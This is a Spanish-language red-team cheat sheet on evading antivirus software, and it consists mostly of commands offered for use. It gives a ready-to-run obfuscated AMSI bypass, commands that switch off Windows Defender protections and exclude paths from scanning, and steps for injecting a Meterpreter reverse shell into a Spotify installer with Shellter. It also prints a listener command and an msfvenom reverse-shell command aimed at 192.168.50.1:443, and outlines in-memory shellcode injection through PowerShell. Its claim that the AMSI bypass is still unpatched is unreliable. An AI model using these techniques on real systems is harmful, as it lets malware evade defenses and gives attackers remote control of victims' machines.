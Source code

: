 # Técnicas de Evasión y Bypass de Antivirus

Este documento detalla técnicas avanzadas para evadir software antivirus (AV), destinadas para uso ético en pruebas de penetración y actividades de red team. Incluye métodos prácticos, herramientas y ejemplos, con un enfoque en la inyección en memoria basada en PowerShell como técnica clave.

## Bypass de AMSI y Política de Ejecución

### Bypass de Política de Ejecución
- **Comando:**
    ```
    PS C:\> powershell -ep bypass
    ```
- **Descripción:** Desactiva las políticas de ejecución de PowerShell, permitiendo que los scripts se ejecuten sin restricciones impuestas por la configuración de seguridad predeterminada.

### Bypass de AMSI
- **Comando:**
    ```powershell
    sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
    ```
- **Descripción:** Desactiva la Interfaz de Escaneo Antimalware de Windows (AMSI) modificando dinámicamente una variable para forzar un fallo de inicialización. Esta técnica sigue sin parchearse por Microsoft y es efectiva para ejecutar scripts maliciosos sin ser detectados por motores de escaneo integrados.

## Desactivar AV (Solo Administradores)

### Desactivar Funciones de AV
- **Comando:**
    ```powershell
    powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true'
    ```
- **Descripción:** Desactiva múltiples funciones de protección de Windows Defender (monitoreo en tiempo real, escaneo de scripts, monitoreo de comportamiento, etc.). Requiere privilegios administrativos.

### Excluir Rutas o Procesos
- **Comando:**
    ```powershell
    powershell -command 'Add-MpPreference -ExclusionPath "c:\temp" -ExclusionProcess "c:\temp\yourstuffs.exe"'
    ```
- **Descripción:** Excluye directorios o procesos específicos de los escaneos de Windows Defender, permitiendo que archivos potencialmente maliciosos se ejecuten sin interferencias.

## Técnicas de Inyección de Código

### Shellter
- **Descripción:** Shellter inyecta cargas útiles en archivos ejecutables portátiles (PE) legítimos, como instaladores de aplicaciones populares (por ejemplo, Spotify). Modifica el flujo de ejecución para insertar código malicioso.
- **Instalación en Kali:**
    ```bash
    kali@kali:~$ sudo apt install wine
    kali@kali:~$ sudo dpkg --add-architecture amd64
    kali@kali:~$ sudo apt install -y qemu-user-static binfmt-support
    kali@kali:~$ sudo apt-get update && apt-get install wine32
    ```
- **Uso Básico:**
    1. Ejecuta `shellter` en Kali bajo Wine.
    2. Selecciona el modo "Auto" (A).
    3. Especifica un archivo PE objetivo (por ejemplo, `/home/kali/Downloads/SpotifyFullWin10-32bit.exe`).
    4. Habilita el "Modo Sigiloso" para restaurar el flujo de ejecución original después de la ejecución de la carga útil.
    5. Elige una carga útil (por ejemplo, shell inverso de Meterpreter) y configura LHOST/LPORT.
- **Ejemplo Práctico:**
    - Inyecta una carga útil de Meterpreter en un instalador de Spotify para evadir la detección de Avira.
    - Configura un listener en Kali:
        ```bash
        msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"
        ```

### Inyección en Memoria
- **Descripción:** Inyecta shellcode directamente en la memoria de procesos en ejecución, evitando escrituras en disco para evadir la detección estática.
- **Técnicas Comunes:**
    - **Inyección de DLL:** Inyecta una DLL maliciosa en un proceso legítimo.
    - **Process Hollowing:** Reemplaza el contenido de un proceso legítimo con código malicioso.
- **Ventaja:** Altamente efectivo contra análisis basados en disco.

### Inyección en Memoria con PowerShell
- **Descripción:** Aprovecha la capacidad de PowerShell para interactuar con las API de Windows y ejecutar cargas útiles maliciosas en la memoria del proceso actual de PowerShell (intérprete x86). Esto evita escrituras en disco, dificultando la detección.
- **Ventajas:**
    - Los scripts son más difíciles de marcar como maliciosos ya que se ejecutan dentro de un intérprete y no como código ejecutable.
    - Fácilmente modificable (nombres de variables, comentarios, lógica) para evadir detección basada en firmas sin necesidad de recompilación.
- **Pasos Clave:**
    1. **Importar APIs de Windows:** Usa `DllImport` para acceder a `VirtualAlloc`, `CreateThread` (de `kernel32.dll`) y `memset` (de `msvcrt.dll`) para asignación de memoria, creación de hilos y escritura de cargas útiles.
    2. **Asignar Memoria:** Reserva un bloque de memoria usando `VirtualAlloc` con permisos de lectura/escritura/ejecución.
    3. **Escribir Carga Útil:** Copia el shellcode byte por byte en la memoria asignada usando `memset`.
    4. **Ejecutar Carga Útil:** Crea un nuevo hilo con `CreateThread` para ejecutar el shellcode.
- **Ejemplo de Script:** *(Ver contenido original para el script completo)*

### Generación de Cargas Útiles
- Genera una carga útil de shell inverso usando `msfvenom`:
    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
    ```
- Copia el array de bytes `$sc` resultante en el script.

## Ofuscación y Cargas Útiles Personalizadas

### Ofuscación
- **Descripción:** Modifica las cargas útiles para evitar coincidencias con firmas conocidas de AV.
- **Técnicas:**
    - Codificación (encoding de datos).
    - Encriptación (encryption de cargas útiles).
    - Polimorfismo (cambios dinámicos en el código).

### Cargas Útiles Personalizadas
- **Descripción:** Crea cargas útiles únicas para evadir detecciones específicas.
- **Herramientas:** Metasploit, Veil (para generar scripts ofuscados).
- **Ejemplo:** Usa Veil para crear un script de PowerShell o batch que evada COMODO AV en un entorno de autoejecución FTP.

## Consejos Generales

- **Conoce el AV Objetivo:**
    - Investiga métodos específicos de detección (firmas, heurísticas, comportamiento).
    - Adapta las técnicas para explotar debilidades identificadas.
- **Uso Ético:**
    - Aplica estas técnicas solo en entornos autorizados (pruebas de penetración, laboratorios).
    - Cumple con las leyes y regulaciones locales.
- **Evolución Constante:**
    - Los AV se actualizan frecuentemente; adapta las técnicas en consecuencia.
    - Consulta recursos como el artículo de Microsoft sobre FinFisher o el documento de Emeric Nasi para métodos avanzados.

## Flujo de Trabajo Ejemplo: Evasión con Shellter
1. **Preparación:**
     - Descarga un ejecutable legítimo (por ejemplo, instalador de Spotify).
     - Instala Shellter en Kali con Wine.
2. **Inyección:**
     - Usa Shellter en modo Auto, habilita el Modo Sigiloso e inyecta una carga útil de Meterpreter.
3. **Ejecución:**
     - Transfiere el archivo modificado a una máquina virtual con Windows y escanea con AV (por ejemplo, Avira).
     - Configura un listener en Kali y verifica la conexión de Meterpreter.
4. **Resultado:** Ejecución exitosa sin detección, preservando la funcionalidad original del programa.
